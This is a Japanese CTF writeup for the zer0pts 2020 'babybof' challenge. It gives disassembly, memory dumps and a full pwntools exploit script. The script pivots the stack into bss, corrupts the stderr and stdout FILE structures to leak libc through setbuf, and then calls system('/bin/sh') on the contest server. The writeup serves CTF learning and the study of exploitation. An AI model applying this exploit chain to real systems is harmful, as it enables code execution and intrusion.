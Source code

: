 ```yaml
---
layout: page
title: "[writeup] zer0ptcCTF2020 / babybof"
date: 2020-03-09 00:00:00 -0000
categories: pwn 
---
```


自分の解法が想定解と思ってたら違ったようなので念のため。  
100%刺さって、そんなに長くない。

### TLDR
- (bof) -> edit bss -> edit stderr -> entry -> (leak) -> main -> system
    - edit bss: rbpにstderrを持って来て編集するため。
    - edit stderr: stderrのsetbufでコケないようにする＋リーク用のstdout改ざんのため

### 問題概要
- no pie, no canary, full relroのバイナリで、setbufやった後はbssにreadする。
- mainの関数はバッファが小さめに取られていて、自明なbofがあるが、出力系が一切ない。
- 最後にexitする。 
- バイナリにはropガジェットが与えられている。セットできるのはrdi, rsi, rbp。あとleaveが使える。
- とにかく問題が小さい。全部はれるレベル

```
entry:
        00400430 e8 0a 00        CALL       setup  
                 00 00
        00400435 e8 44 00        CALL       main     
                 00 00
        0040043a e8 e1 ff        CALL       exit  
                 ff ff
```
```
setup: 
        0040043f 55              PUSH       RBP
        00400440 48 89 e5        MOV        RBP,RSP
        00400443 48 31 f6        XOR        RSI,RSI
        00400446 48 b8 30        MOV        RAX,stdin
                 10 60 00 
                 00 00 00 00
        00400450 48 8b 38        MOV        RDI,qword ptr [RAX]=>stdin
        00400453 e8 a8 ff        CALL       setbuf
                 ff ff
        00400458 48 b8 20        MOV        RAX,stdout
                 10 60 00 
                 00 00 00 00
        00400462 48 8b 38        MOV        RDI,qword ptr [RAX]=>stdout
        00400465 e8 96 ff        CALL       setbuf
                 ff ff
        0040046a 48 b8 40        MOV        RAX,stderr
                 10 60 00 
                 00 00 00 00
        00400474 48 8b 38        MOV        RDI,qword ptr [RAX]=>stderr
        00400477 e8 84 ff        CALL       setbuf
                 ff ff
        0040047c 5d              POP        RBP
        0040047d c3              RET
```
```
main:
        0040047e 55              PUSH       RBP
        0040047f 48 89 e5        MOV        RBP,RSP
        00400482 48 83 ec 20     SUB        RSP,0x20
        00400486 ba 00 02        MOV        EDX,0x200
                 00 00
        0040048b 48 8d 75 e0     LEA        RSI=>local_28,[RBP + -0x20] 
        0040048f bf 00 00        MOV        EDI,0x0
                 00 00
        00400494 e8 77 ff        CALL       read
                 ff ff
        00400499 c9              LEAVE
        0040049a c3              RET
```
### 解法
- 出力がないので、stdoutのwriteポインタを触れるのは必須。ただし書き換えただけではリークせず、出力系が動かないとだめ。今回はsetbufを走らせたときにリークするのがポイント。また`rbp`に適当な値をセットした後に`40048b`に飛ぶと、次のpivot先を編集しながら進める。
- stdoutを直接編集したいが、bssのデザイン上stderrが一番触りやすい位置にあるため、stderrを大きく編集して、下に位置するstdoutを書き換える方針で行く。
- stderrを編集するので、`rbp`にstderrのアドレスを持ってくる必要がある。
- 編集した後も動作するために、`0x601048`にガジェットを置いておく必要がある。つまりbssのアドレスも一度編集する必要がある。またstderrを書き換えた後、戻ってくるアドレスを保持したところを準備しておく必要がある。
- 具体的な手順は以下の通り。
    1. `601068`を`rbp`にセットして、`40048b`に飛ぶ。
    2. `601048`に`leave`を設置して、さらにmainのアドレスを格納し、`rbp`に`601040`をセットして、再び`40048b`に飛ぶ。飛ぶ前に`leave`を踏むため、これでrspには`601040`、`rbp`にはstrerrのアドレスがセットされる。
    3. ここでstderrのsetbufが走るように値を設定し、vtable+offsetを2.で設定したmainのアドレスに向けて、**entry**に飛ぶ（setbufを呼ぶため）
    4. これで、entry -> setup -> setbuf(stdout, 0)でリーク -> setbuf(stderr, 0)でvtableからmainへ。リークされた状態で入力待ちになる。
    5. system("/bin/sh")（勝ち）

2.の後のbss最後の状態
```
0x601020 <stdout@@GLIBC_2.2.5>:	0x00007f21097b8760	0x0000000000000000
0x601030 <stdin@@GLIBC_2.2.5>:	0x00007f21097b7a00	0x0000000000000000
0x601040 <stderr@@GLIBC_2.2.5>:	0x00007f21097b8680	0x0000000000400499
0x601050:	0x0000000000000001	0x0000000000000002
0x601060:	0x0000000000000003	0x0000000000000004
0x601070:	0x000000000040047c	0x0000000000601040
0x601080:	0x0000000000400499	0x000000000040047e
0x601090:	0x0000000000000000	0x0000000000000000
0x6010a0:	0x0000000000000000	0x0000000000000000
0x6010b0:	0x0000000000000000	0x0000000000000000
0x6010c0:	0x0000000000000000	0x0000000000000000

```

3.の後のstderrはこんな感じ
```
0x7f21097b8680 <_IO_2_1_stderr_>:	0x0000000000000000	0x0000000000400430
0x7f21097b8690 <_IO_2_1_stderr_+16>:	0x0000000000000000	0x0000000000000000
0x7f21097b86a0 <_IO_2_1_stderr_+32>:	0x0000000000000000	0x0000000000000000
0x7f21097b86b0 <_IO_2_1_stderr_+48>:	0x0000000000000000	0x0000000000000000
0x7f21097b86c0 <_IO_2_1_stderr_+64>:	0x0000000000000000	0x0000000000000000
0x7f21097b86d0 <_IO_2_1_stderr_+80>:	0x0000000000000000	0x0000000000000000
0x7f21097b86e0 <_IO_2_1_stderr_+96>:	0x0000000000000000	0x0000000000000000
0x7f21097b86f0 <_IO_2_1_stderr_+112>:	0x0000000000000000	0x0000000000000000
0x7f21097b8700 <_IO_2_1_stderr_+128>:	0x0000000000000000	0x00000000006010c0
0x7f21097b8710 <_IO_2_1_stderr_+144>:	0x0000000000000001	0x0000000000000002
0x7f21097b8720 <_IO_2_1_stderr_+160>:	0x0000000000000003	0x0000000000000004
0x7f21097b8730 <_IO_2_1_stderr_+176>:	0x0000000000000005	0x0000000000000006
0x7f21097b8740 <_IO_2_1_stderr_+192>:	0x0000000000000007	0x0000000000000008
0x7f21097b8750 <_IO_2_1_stderr_+208>:	0x0000000000000009	0x0000000000601030
0x7f21097b8760 <_IO_2_1_stdout_>:	0x00000000fbad1887	0x0000000000000000
```
完成したスクリプト

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

TARGET = './chall'
HOST = '13.231.207.73'
PORT = 9002

elf = ELF(TARGET)
def start():
    if not args.R:
        print "local"
        return process(TARGET)
        # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
        # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
    else:
        print "remote"
        return remote(HOST, PORT)

def get_base_address(proc):
    return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    script += "set $_base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print "\t-> %s: 0x%x" % (val, eval(val))

r = start()
if args.D:
    debug(r, [0x48b, 0x49a])

rbp = 0x40047c
rdi = 0x40049c
rsi = 0x40049e
leave = 0x400499
intercept = 0x40048b
main = 0x40047e
setup = 0x400430

payload = ''
payload += 'A'*40
payload += flat(rbp, 0x601048+0x20, intercept)
r.send(payload.ljust(0x200, '\x00'))
pause()

payload = ''
payload += flat(intercept, 1, 2, 3, 4, rbp, 0x601040, leave, main)
r.send(payload.ljust(0x200, '\x00'))
pause()

payload = ''
payload += '\x00' * 0x28
payload += flat(setup)
payload = payload.ljust(0x88+0x20, '\x00')
payload += flat(0x6010c0)
payload += flat(1, 2, 3, 4, 5, 6, 7, 8, 9, 0x601088-0x58)
payload += flat(0xfbad1887, 0, 0, 0) + '\x00'
r.send(payload)
leak = u64(r.recv(0x80)[0x40:0x48])
dbg("leak")
base = leak -0x3c5600
system = base + 0x45390
binsh = base + 0x18cd57

payload = ''
payload += '\x00' * 0x28
payload += flat(rdi, binsh, system)
r.sendline(payload)

r.interactive()
r.close()
```

#### 感想
- stdoutいじってリークしないときは絶望したし、stderrで落ちるときも絶望したし、ropでsetbuf組むのもアドレス知らんので詰んでたし、だいぶ苦しみながら作ってた。
- setbufでリークするのはこれからも使えそうな気がする小ネタ。
- これだけ小さいプログラムで、これだけたくさん考えられて楽しいのは本当にすごい。面白かった。
